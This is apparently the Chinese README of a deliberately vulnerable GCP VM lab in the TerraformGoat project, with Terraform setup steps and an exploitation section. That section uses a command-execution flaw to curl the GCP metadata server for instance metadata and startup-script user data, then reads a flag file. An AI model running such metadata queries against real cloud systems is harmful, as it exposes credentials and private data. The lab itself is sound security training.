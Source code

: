 # GCP VM 命令执行漏洞环境

[English](./README.md) | 中文

## 描述信息

这是一个用于构建 GCP VM 命令执行漏洞环境的靶场。

使用 Terraform 构建环境后，用户可以通过命令执行漏洞获取到 VM 上的元数据、用户数据等信息。

## 环境搭建

通过以下命令进行 gcp 身份认证，在[服务账户](https://console.cloud.google.com/projectselector2/iam-admin/serviceaccounts?supportedpurview=project)处生成一个密钥文件，将密钥复制到容器中进行身份认证

```shell
docker cp key.json terraformgoat:/terraformgoat # 在宿主机中运行
docker exec -it terraformgoat /bin/bash  # 在宿主机中运行
gcloud auth activate-service-account --key-file key.json # 在容器中运行
```

在容器中执行以下命令

```shell
cd /TerraformGoat/gcp/vm/vm_command_execution
```

编辑 `terraform.tfvars` 文件，在文件中填入你的 `gcp project id`

```shell
vim terraform.tfvars
```

部署靶场

```shell
terraform init
terraform apply
```

> 在终端提示 `Enter a value:` 时，输入 `yes` 即可

![img](../../../images/1652174499.png)

环境搭建完后，在 Outputs 处可以看到靶场的访问地址，打开浏览器访问即可

> 由于靶场搭建需要一定时间，因此如果浏览器访问不到，可以等待 1-2 分钟后再访问试试。

## 漏洞利用

在存在命令执行漏洞的 VM 上，我们可以利用命令执行获取 VM 的元数据、用户数据等信息。

读取元数据

```shell
curl "http://metadata.google.internal/computeMetadata/v1/" -H "Metadata-Flavor: Google"
```

![img](../../../images/1652174820.png)

读取用户数据

> 前提是目标已经配置了用户数据

```shell
curl "http://metadata.google.internal/computeMetadata/v1/instance/attributes/startup-script" -H "Metadata-Flavor: Google"
```

![img](../../../images/1652175230.png)

在用户数据信息中，可以看到在靶场的根目录下有个 flag 文件，尝试利用命令执行读取这个文件

```shell
cat /flag69152201.txt
```

![img](../../../images/1652094243.png)

成功读取到 flag 文件

## 销毁环境

```shell
terraform destroy
```
